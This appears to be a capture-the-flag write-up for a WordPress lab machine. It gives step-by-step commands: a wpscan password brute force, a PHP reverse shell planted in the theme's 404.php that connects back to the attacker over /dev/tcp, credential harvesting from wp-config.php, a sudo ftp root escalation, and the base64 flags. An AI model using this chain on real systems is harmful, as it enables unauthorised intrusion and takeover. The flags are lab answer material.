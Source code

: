 # user.txt

webserver with `wordpress` setup  
/hidden showed three usernames - C0ldd - Hugo - Philip  
use wpscan to crack the password of c0ldd
`wpscan --url http://10.10.171.103 -P /usr/share/wordlists/rockyou.txt -U c0ldd`   
`Username: C0ldd, Password: 9876543210`  


appearance -> editor -> 404.php  
`<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<your-ip-address>/1234 0>&1'");?>`  
http://ip/?p=404.php  && `nc -lvp 1234`  
  
stabilize shell  
`python3 -c 'import pty; pty.spawn("/bin/bash")'`  
`export TERM=xterm`  
Ctrl + Z  
`stty raw -echo; fg`   (from local terminal)  
<enter>  
     
`cat wp-config.php` to see the wordpress config file  
`Username: C0ldd, Password: cybersecurity` 

<details>
<summary>flag</summary>
user.txt -- RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
</details>

# root.txt  

`sudo -l` to find all programms that can be run as root   
`sudo ftp`  
`!bin/sh`  
`find / -iname root.txt 2</dev/null`  

<details>
<summary>flag</summary>
root.txt -- wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
</details>